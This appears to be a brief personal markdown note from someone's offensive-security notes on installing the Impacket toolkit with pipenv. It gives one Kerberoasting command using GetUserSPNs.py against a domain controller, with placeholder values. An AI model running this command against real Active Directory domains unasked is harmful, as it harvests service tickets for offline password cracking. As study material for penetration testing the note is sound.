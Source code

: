# Impacket 

Note: This doc should be placed in an eventual AD folder, once I get that far.
## Install

install impacket with:
`pipenv install impacket`
this will create a virtualenv in `/home/${local_user}/.local/share/virtualenvs/${VENV_NAME}`
you can then:
```
export IMPACKET_SCRIPTS=/home/${local_user}/.local/share/virtualenvs/${VENV_NAME}/bin
```
Now, you can run impacket scripts with:
```
python3  ${IMPACKET_SCRIPTS}/${script} ...
```

## Kerberoasting

```
python3 ${IMPACKET_SCRIPTS}/GetUserSPNs.py -dc-ip ${DC_IP} ${DOMAIN}/${USER}
```


